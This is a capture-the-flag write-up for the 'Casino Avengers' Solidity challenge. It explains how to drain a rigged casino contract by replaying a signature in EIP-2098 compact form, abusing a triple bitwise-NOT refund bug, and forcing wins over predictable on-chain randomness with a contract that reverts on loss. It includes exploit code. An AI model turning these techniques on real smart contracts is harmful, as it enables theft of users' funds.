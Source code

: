 # Casino Avengers

## Author

ustas.eth

## Description

After numerous attacks by Alice on Bob, he's now planning his revenge. By tracing his stolen funds, Bob has uncovered
Alice's latest scheme: a rigged Casino smart contract.
You and Bob have a long history together. While Bob may not be an expert in hacking, he has turned to his most trusted
ally - you - for assistance. Although the funds are already locked in the contract and it seems impossible to retrieve
them, as a team you are determined to find a way...

## Solution

### Step 1:

Find the original signature used for *pause*, it is of *length 65 bytes*, convert it
to [Compact Signature Representation](https://eips.ethereum.org/EIPS/eip-2098), it is still valid signature.
Once you have the new signature, call `pause(compactSignature, sameSalt)` to unpause the Casino.

```solidity
function convertSignatureToCompact(bytes memory signature) public pure returns (bytes memory) {
    require(signature.length == 65, "Invalid signature length - must be 65 bytes");

    // First, we'll extract r, s, and v from the 65-byte signature
    bytes32 r;
    bytes32 s;
    uint8 v;

    // Extract the components using assembly, just like in the OpenZeppelin code
    assembly {
    // The first 32 bytes after the length prefix (0x20) contain r
        r := mload(add(signature, 0x20))
    // The next 32 bytes contain s
        s := mload(add(signature, 0x40))
    // The last byte contains v
        v := byte(0, mload(add(signature, 0x60)))
    }

    // Validate that v is either 27 or 28
    require(v == 27 || v == 28, "Invalid v value - must be 27 or 28");

    // Create the compressed 'vs' value by potentially setting the highest bit
    // If v is 28, we set the highest bit of s to 1
    // If v is 27, we leave s as is
    bytes32 vs = v == 28
        ? bytes32(uint256(s) | (1 << 255))  // Set the highest bit
        : bytes32(uint256(s));              // Leave as is

    // Combine r and the modified vs into a 64-byte signature
    return abi.encodePacked(r, vs);
}
```

Now you might think we can *withdraw* out funds; you are wrong; the `_withdraw` function has a *typo* and nobody can
withdraw their funds.

```solidity
function _withdraw(address withdrawer, address receiver, uint256 amount) internal whenNotPaused {
    //...
    reciever.call{value: amount}(""); // <<< wrong spelling of [reciever]
}
```

### Step 2:

As the *player* deposit *0.1 ether* into the casino to start playing.

### Step 3:

We take advantage of another *clever* bug that was put into the *reset* function.
This line of code `uint256 balance = ~~~balances[holder]; // optimization trick` is interesting, the triple *bitwise
NOT* will just flip the balance bits.

1. `~balance` flip all bits.
2. `~~balance` flip all bits twice, bringing it back to int original value.
3. `~~~balance` flip all bits three times, resulting in flipped balance.

So if you have *1 ether*, the contract will try to refund you with `type(uint256).max - 1 ether`.

All we have to do is to *kep betting* until our balance is the flipped value of the *Casino* total balance.

```solidity
function reset(
    bytes memory signature,
    address payable receiver,
    uint256 amount,
    bytes32 salt
) external {
    //...
    for (uint256 h = 0; h < holderslen; h++) {
        address holder = holders[h];
        uint256 balance = ~~~balances[holder]; // optimization trick
        balances[holder] = 0;
        holder.call{value: balance}("");
    }
    //...
}
```

```bash
➜ uint balance = 1 ether;
➜ uint balanceFlipped = ~~~balance;

➜ balance
Type: uint256
├ Hex: 0xde0b6b3a7640000
├ Hex (full word): 0xde0b6b3a7640000
└ Decimal: 1000000000000000000
➜ balanceFlipped
Type: uint256
├ Hex: 0xfffffffffffffffffffffffffffffffffffffffffffffffff21f494c589bffff
├ Hex (full word): 0xfffffffffffffffffffffffffffffffffffffffffffffffff21f494c589bffff
└ Decimal: 115792089237316195423570985008687907853269984665640564039456584007913129639935
```

### Step 4:

Start betting, but be smart about it, the way *Casino* determine winners is not very random because the input parameters
are known and can be controlled by the caller.

```solidity
uint256 random = uint256(keccak256(abi.encode(gasleft(), block.number, totalBets)));
bool win = random % 2 == 1;
```

You can make *PlayerBettingContract* that will *ALWAYS* win.

```solidity
contract PlayerBetterContract {
    function bet(Casino casino) {
        bool win = casino.bet(casino.balances(address(this)));
        if (!win) {
            revert("I changed my mind ;)");
        }
    }
}
```

Make a script that calls you *PlayerBetterContract*, and change the gas if it reverts. This can be done using
*JavaScript*; which I have no pleasure in explaining or writing; but you get the idea.

### Step 5:

Once you have *~~~address(Casino).balance*, go ahead and call *reset* with the compact signature.

```solidity
bytes memory resetSig = convertSignatureToCompact(resetSignature);
ca.reset(resetSig, payable(resetReceiver), resetValue, resetSalt);
```
